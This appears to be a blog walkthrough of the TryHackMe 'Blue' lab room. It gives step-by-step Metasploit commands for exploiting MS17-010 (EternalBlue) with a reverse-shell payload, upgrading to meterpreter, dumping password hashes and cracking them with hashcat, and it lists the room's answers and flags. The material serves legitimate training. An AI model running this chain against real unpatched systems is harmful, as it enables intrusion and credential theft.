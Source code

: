 +++
date = '2025-09-10T15:26:12+07:00'
title = 'TryHackMe - Blue Room Walkthrough'
tags = ['TryHackMe', 'CTFs']
description = "Deploy & hack into a Windows machine, leveraging common misconfigurations issues."
draft = false

[cover]
  image = '/images/posts/tryhackme-blue.png'
  alt = 'TryHackMe Blue Room'
  caption = 'TryHackMe Blue Room'
  relative = false
+++

This is my TryHackMe walkthrough, created to document my learning journey and share solutions with the community. The writeups include a mix of hints, step-by-step explanations, and final answers to help players who get stuck, while still encouraging independent problem-solving.

> Blue Room - Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

## Overview
- **Room URL:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)
- **Difficulty:** Easy
- **Time to complete:** 30

## Walkthrough
### 1. Recon
- <p>How many ports are open with a port number under 1000?</p>
```bash
nmap <MACHINE_IP> -p 0-1000
```
**=> Answer: `3`**

- <p>What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)</p>

**=> Answer: `ms17-010`**

### 2. Gain Access
- <p>Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)</p>
```bash
msfconsole
search ms17_010
```
**=> Answer: `exploit/windows/smb/ms17_010_eternalblue`**

- <p>Show options and set the one required value. What is the name of this value? (All caps for submission)</p>
```bash
use ms17_010_eternalblue
show options
```
**=> Answer: `RHOSTS`**

- Gain access to the target VM:
```bash
set payload windows/x64/shell/reverse_tcp
set RHOSTS <target VM IP>
run
```

- Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
```bash
Ctrl + Z
use post/multi/manage/shell_to_meterpreter
sessions -l
set SESSION 2
run
```

### 3. Escalate
- <p>If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) </p>

**=> Answer: `post/multi/manage/shell_to_meterpreter`**

- <p>Select this (use MODULE_PATH). Show options, what option are we required to change?</p>

**=> Answer: `SESSION`**

- <p>Set the required option, you may need to list all of the sessions to find your target here. </p>
```bash
SET SESSION 2
```

- <p>Run! If this doesn't work, try completing the exploit from the previous task once more.</p>
```bash
run
```

- <p>Once the meterpreter shell conversion completes, select that session for use.</p>
```
sessions -i <meterpreter session>
```

- <p>Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. </p>

- <p>List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).</p>

- <p>Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. </p>
```bash
# Take several attempts try multiple processes
migrate <process id>
```

### 4. Cracking
- <p>Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? </p>
```bash
hashdump
```
**=> Answer: `Jon`**

- <p>Copy this password hash to a file and research how to crack it. What is the cracked password?</p>
```bash
echo 'YOUR HASH VALUE' > hash.txt
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

# If you just have rockyou.txt.gz, decompress it.
gzip -d /usr/share/wordlists/rockyou.txt.gz
# Run hashcat again
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
**=> Answer: `alqfna22`**

### 5. Find flags!
```
Ctrl + Z
Get back to the original shell for better performance
sessions -i <original session id>
```
- Flag1? <i>This flag can be found at the system root. </i>
```powershell
cd ..
cd ..
dir
type flag1.txt
```
**=> Answer: `flag{access_the_machine}`**

- <p>Flag2? <i>This flag can be found at the location where passwords are stored within Windows.</i></p><p><br /></p><p>*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. </p>
```powershell
cd Windows/System32/Config
dir
type flag2.txt
```
**=> Answer: `flag{sam_database_elevated_access}`**

- <p>flag3? <i>This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. </i></p>
```powershell
cd /Users/Jon/Documents
type flag3.txt
```
**=> Answer: `flag{admin_documents_can_be_valuable}`**

